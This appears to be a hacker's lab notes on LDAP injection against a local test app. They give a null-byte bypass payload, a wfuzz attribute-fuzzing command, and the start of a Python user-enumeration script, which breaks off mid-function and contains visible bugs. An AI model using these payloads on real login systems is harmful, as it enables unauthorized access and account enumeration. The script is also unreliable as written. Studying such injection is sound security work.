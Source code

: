     So, the sintax of LDAP allow us to make something like NoSQLi if not sanitized
    
    ![[Untitled 204.png]]
    
    ![[Untitled 205.png]]
    
    And making use of null bytes we can exit from the query **admin))%00**
    
    ![[Untitled 206.png]]
    
    This opens a pottential way to enumerate attributes like this
    
    ![[Untitled 207.png]]
    
    We can FUZZ using the SecLists dictionary /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt
    
    So, using wfuzz
    
    `wfuzz -c --hh=439 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d ’user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit’ http://localhost:8888`
    
    ![[Untitled 208.png]]
    
    Lets make a script to enumarate users
    
    ```Python
    #!/usr/bin/python3
    
    import requests
    import time,sys,signal
    import string
    import pdb
    
    from pwn import *
    
    def def_handler(sig, frame):
    	print(\n\n[!]Saliendo..\n)
    	sys.exit(1)
    
    signal.signal(signal.SIG_INT, def_handler)
    
    \#variables globales
    main_url = "http://localhost:8888/"
    burp = {'http', 'http://127.0.0.1:8080'}
    
    def getInitialUsers():
    
    	characters = string.ascii_lowecase
    
    	initial_users = []
    
    	headers = {'Content-Type':'application/x-www-form-urlencoded'}
    
    	for character in characters:
    		
    		post_data = "user_id={}*&password=*&login=1&submit=Submit".format(character)
    
    		r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False, proxies=burp)
    